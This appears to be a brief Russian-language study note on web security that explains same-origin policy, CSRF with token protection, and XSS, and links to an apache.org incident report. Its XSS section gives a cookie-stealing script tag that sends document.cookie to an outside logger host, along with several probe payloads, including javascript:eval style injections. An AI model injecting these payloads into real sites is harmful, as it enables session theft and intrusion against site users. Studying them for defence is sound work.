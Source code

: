 
**Same-origin policy (SOP)** это основной механизм защиты данных и методов, пришедших из разных источников.

**CSRF** расшифровывается как cross-site request forgery. Данная атака базируется на одной из основных идей www - идее о том, что страницы могут включать в себя содержимое из разных источников. Это достаточно простая атака, но может дать весьма интересные результаты при грамотном подходе.  
Защита от атаки, это добавление в параметр ключа (индетификатор) который генерируется на стороне сервера на одну страницу.

**XSS-атаки** - пожалуй, самый распространенный тип атак. Найти просто - всё, что нужно, это тщательно изучить код страницы и входные параметры. Защититься проблематично - вылезать может в совершенно неожиданных местах. Степень опасности - от незначительной до … просто почитайте эту историю, почти технотриллер, о том, как поломали apache.org: [https://blogs.apache.org/infra/entry/apache\_org\_04\_09\_2010](https://web.archive.org/web/20210122152139/https://blogs.apache.org/infra/entry/apache_org_04_09_2010)﻿  
Про уязвимость [от гугла](https://web.archive.org/web/20210122152139/https://www.google.com/about/appsecurity/learning/xss/)

Примеры XSS атак

<script src\="http://logger.com/?c="+encodeURL(document.cookie)\></script>

Проверка на наличие уязвимости

RRR'\><"{}()
<script>alert(1)</script>
<div id="mycode" expr="alert('hah!')" style="background:url('javascript:eval(document.all.mycode.expr)')">
<div id="mycode" expr="alert('hah!')" style="background:url('javas\\ncript:eval(document.all.mycode.expr)')">
